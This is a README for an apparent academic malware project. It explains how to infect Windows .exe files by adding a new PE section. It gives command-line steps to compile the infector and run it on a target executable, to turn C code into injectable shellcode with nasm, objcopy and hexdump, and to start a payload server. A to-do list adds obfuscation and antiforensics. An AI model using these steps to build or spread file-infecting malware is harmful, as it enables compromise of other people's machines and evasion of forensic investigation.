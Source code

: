 # MALW-MCYBERS
## Infection
For the infection part we decided to use *New section* technique. This consits in adding a new section to a *.exe* file.

For this, we have the following files:
- infectPE.cpp
- PE.cpp
- PE.h
- processCreator.cpp
- shellcodeExecuter.cpp

### Compilation

#### Infect a file
```sh
> g++ -c PE.cpp -std=c++17
> g++ -c infectPE.cpp -std=c++17
> g++ -o infectPE.exe infectPE.o
> .\infectPE.exe .\executable_to_infect.exe .\out.exe
```

#### Create shellcode
From C to assembly.
```sh
> ShellcodeCompiler_x64.exe -r Source.cpp -o Shellcode.bin -a assembly_code.asm -p win_x86
```
Assembly to shellcode.
```sh
$ nasm -f win32 assembly_code.asm 
$ objcopy -j .text -O binary assembly_code.obj temp_file.bin
$ hexdump -v -e '"\\" 1/1 "x%02x"' temp_file.bin
```

#### Run sever
```sh
$ sudo node index.js
```

### To Do
- [ ] Update downloaded file path and name
- [ ] Payload of exe file
- [ ] Obfuscation
- [ ] Antiforensics

### Old versions
```sh
> g++ -c processCreator.cpp
> g++ -o procesCreator.exe processCreator.o
> .\processCreator.exe executable_to_execute.exe

> g++ -c shellcodeExecuter.cpp
> g++ -o shellcodeExecuter.exe shellcodeExecuter.o
> .\shellcodeExecuter.exe
```
